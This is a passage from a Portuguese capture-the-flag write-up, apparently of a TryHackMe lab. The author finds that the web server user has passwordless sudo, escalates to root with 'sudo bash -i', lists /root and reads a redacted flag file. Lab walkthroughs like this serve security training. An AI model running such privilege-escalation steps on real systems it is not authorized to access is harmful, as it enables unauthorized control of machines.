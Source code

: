 Para minha surpresa, `www-data`, mesmo sendo um usuário limitado do servidor web, tinha permissão para usar `sudo` sem senha. Ou seja, já era possível obter acesso root direto. Ainda assim, usei `sudo bash -i` para finalizar o desafio como root.
```console
$ sudo bash -i
sudo bash -i
root@ip-10-10-189-231:/home/rick#
```

### Escalada de Privilégios
Já como `root`, acessei o diretório `/root`, e encontrei o **terceiro ingrediente:** 
```console
root@ip-10-10-189-231:/home/rick# cd /root
cd /root
root@ip-10-10-189-231:~# ls -larth
ls -larth
total 36K
-rw-r--r--  1 root root 3.1K Oct 22  2015 .bashrc
drwx------  2 root root 4.0K Feb 10  2019 .ssh
-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
-rw-r--r--  1 root root  161 Jan  2  2024 .profile
-rw-------  1 root root  702 Jul 11  2024 .viminfo
drwx------  4 root root 4.0K Jul 11  2024 .
drwxr-xr-x  4 root root 4.0K Jul 11  2024 snap
drwxr-xr-x 23 root root 4.0K Jun 11 23:09 ..
-rw-------  1 root root  223 Jun 12 00:27 .bash_history
root@ip-10-10-189-231:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: THM{***** *****}
```
